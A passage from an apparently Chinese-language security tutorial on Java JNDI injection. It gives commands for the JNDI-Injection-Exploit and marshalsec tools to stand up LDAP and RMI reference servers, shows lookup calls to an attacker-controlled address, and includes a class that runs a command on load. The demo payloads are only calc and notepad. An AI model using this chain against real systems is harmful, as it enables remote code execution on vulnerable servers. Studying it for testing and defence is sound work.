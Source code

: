 ```java
        ic.lookup("rmi://47.243.198.220:1099/5le86y");
    }
}
```

### JNDI远程调用JNDI-Injection

这里就展示参考文档中的部分了，和上次的内容差不了多少。

使用Xshell连接，输入以下命令

```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A IP地址
```

**使用Ldap连接（默认端口1389）**

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/5dd35a7f89df474f9c92ee0b2c920031.png" alt="img" style="zoom:50%;" />

**使用rmi连接（默认端口1099）**

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/cbd6a1750076480381f18542c0d69958.png" alt="img" style="zoom:50%;" />

### JNDI远程调用-marshalsec

1. 使用远程调用 ( 默认端口 1389 )

   new InitialContext().lookup("ldap://xx.xx.xx.xx:1389/Test");

   new InitialContext().lookup("rmi://xx.xx.xx.xx:1099/Test");

2. 编译调用对象

   javac Test.java

3. 使用利用工具生成调用协议（rmi,ldap）

   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://0.0.0.0/#Test

   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://0.0.0.0/#Test

4. 将生成的Class存放访问路径

后续步骤就是再创建一个Jndi的项目，新建Test.java，代码如下：

```java
import java.io.IOException;
 
public class Test {
    public Test() throws IOException {
        Runtime.getRuntime().exec("notepad");
    }
}
```

再就是生成class文件，在终端执行：

```shell
cd .\src\main\java\
 
 javac .\Test.java  
 
 ls
```
